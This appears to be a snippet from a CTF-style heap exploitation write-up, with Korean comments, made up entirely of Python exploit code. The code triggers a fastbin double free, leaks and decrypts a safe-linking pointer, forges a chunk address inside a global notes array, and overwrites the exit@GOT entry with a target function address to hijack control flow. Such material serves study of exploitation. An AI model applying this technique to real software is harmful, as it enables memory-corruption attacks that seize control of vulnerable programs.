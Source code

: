 ```python

create(0, 0x60, b'a')  

create(1, 0x60, b'b')  



delete(0)

\# fastbin: A -> NULL



delete(1)

\# fastbin: B -> A -> NULL



delete(0)

\# fastbin: A -> B -> A 



leak = read\_note(9)

cipher = u64(leak.ljust(8, b'\\x00'))

print('leak : ', hex(cipher))

decrypted\_leak = decrypt(cipher)

print('decrypt : ', hex(decrypted\_leak))



pause()



fake\_chunk\_addr = 0x404110  # notes\[7]



create(0, 0x60, p64(fake\_chunk\_addr ^ ((decrypted\_leak >> 12))))  # A



create(1, 0x60, b'b')  # B



create(2, 0x60, b'a')  # A dup, malloc 리턴값 = notes\[7]



create(3, 0x60, p64(elf.got\['exit'])) # notes\[7].ptr = exit@GOT



update(7, p64(0x401256)) 

```
